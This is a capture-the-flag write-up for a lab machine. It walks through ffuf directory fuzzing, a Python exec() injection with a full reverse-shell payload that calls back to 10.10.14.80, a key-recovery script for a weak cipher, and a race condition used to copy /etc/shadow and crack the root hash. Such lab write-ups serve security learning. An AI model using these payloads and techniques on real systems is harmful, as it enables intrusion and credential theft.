

Running our normal emum shows a `http` server on port 8080.

Looking over the website we have the description:

```
Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory
```

The conventional `gobuster`/`dirbuster` didn't work in this situation.

As I do not want to guess to directory I'm going to use a lightweight fuzzing tool called [ffuf](https://github.com/ffuf/ffuf).

The command below will find our directory:
```
./fuff -c -w ~/GitHub/Pentesting_Tools/Wordlists/DirBusting/directory-list-2.3-medium.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

This shows us a `/develop` endpoint that allows us to access the `python` code.


The vulnerability can be seen in the code below:
```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

This will let us run our own `python` code with a command injection.

Below is the format for the exploit:
```
';<CMD>;'
```

This works because when the string is formatted it looks like so:
```python
output = 'Document: '; <CMD> ; ''
```

Effectively creating three commands. This lets us inject any code we like.


Below is the reverse shell exploit:
```
http://10.10.10.168:8080/';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.80",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This lets us spawn a shell as `www-data`!

When we get on the box we have a number of files in `/home/robert`


One of them is `SuperSecureCrypt.py`. This is accompanied by two files:

`check.txt`
```
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

And `out.txt`:
```
¦ÚÈêÚÞØÛÝ݉×ÐÊ߅ÞÊÚɒæßÝˈÚÛÚêÙÉëéÑÒÝÍЅêÆáÙÞã–ÒшÐáÙ¦Õæ؞ãÊÎ́ßÚêƎÝáäè‰ÎÍڌÎëÑÓäáÛÌ׉v
```

This is then encrypted using this code:
```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

The insecure element is here:
```python
newChr = chr((newChr + ord(keyChr)) % 255)
```

This is insecure because if the password is all printable ascii (`< 127`) and the key is also printable it will result in the
mod operation (`%`) never affecting the value.

```python
ord('z') + ord('z') = 244
```

This means to decrypt all we need to do is just take off the original values from the output. Below is a script that exploits this:

```python
if __name__ == "__main__":
    
    checkData = None
    with open("./check.txt") as f:
        checkData = f.read()

    outData = None
    with open("./out.txt") as f:
        outData = f.read()

    for i, x in enumerate(checkData):

        c = checkData[i]
        o = outData[i]

        keyChar = chr((ord(o) - ord(c)) % 255)

        print(keyChar, end="")
    print()
```

This produces the key:
```
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
```

This can then be used to decrypt a `passwordreminder.txt` text file present in the `/home` directory.

This gives us the password for the user `robert`
```
robert:SecThruObsFTW
```

This lets us logon via `ssh` and grab the `user.txt`.

# ROOT

Running our usual enum script shows us that `robert` may run the command below:
```
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Inspecting the `BetterSSH.py` shows that it opens the `/etc/shadow` file and saves it in a 
temporary random directory:

```python
with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

This will contain all of the password hashes for the users! However, this is deleted very quickly, so I cannot be manually copied.

The exploit therefore will be to run a copy script over and over until it copies out the newly created file:
```
watch -n 0.1 cp -r ./* ..
```

This will copy the file out and allow us to grab the password hash below:
```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

After quickly cracking the hash, it gives us the password for the `root` user.
```
root:mercedes
```

This lets us log on using the `BetterSSH.py` client as `root`. This lets us grab the `root.txt`!